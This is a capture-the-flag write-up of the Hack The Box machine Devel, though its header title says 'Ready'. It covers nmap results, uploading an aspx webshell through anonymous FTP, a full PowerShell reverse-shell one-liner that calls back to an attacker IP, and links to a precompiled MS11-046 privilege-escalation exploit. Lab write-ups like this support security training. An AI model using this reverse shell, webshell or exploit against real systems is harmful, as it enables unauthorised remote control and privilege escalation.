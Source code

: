 ```yaml
---
featured_image: "/posts/Devel/devel.png"
title : HTB 14/20 Ready
published : true
date: 2021-04-23
author : PS
---
```

## Foothold
*nmap*
```bash
Nmap scan report for 10.10.10.5
Host is up (0.10s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.23 seconds
```
First let's try to get into the ftp
![[Pasted image 20210427194341.png]]

![[Pasted image 20210427194409.png]]
Nothing interesting  
Let's move to the port 80  
![[Pasted image 20210427194512.png]]
Ok, since the same files we see on the web page are the same as in the ftp , and we can use put on the ftp , I assume that we need to upload and open a  shell on the ftp and since is iis it has to be aspx  
https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx
![[Pasted image 20210427195656.png]]
## Getting User
Run 
```bash
powershell.exe -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.7',6969);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
And have a nc in the back  
And BOOM got user
## Getting Root
![[Pasted image 20210427200148.png]]
Always run systeminfo
![[Pasted image 20210427200342.png]]
After running Watson  on the machine , it reveals that is vuln to MS11-046 and many more , so we are gonna search for an exploit  
After searching for a while I've stumbled upon this super mega nice repo with exploits 
https://github.com/abatchy17/WindowsExploits
https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046
PRECOMPILED !!! this is wild :)))  
Use smb to get the exploit on the machine and get root  
PS out 
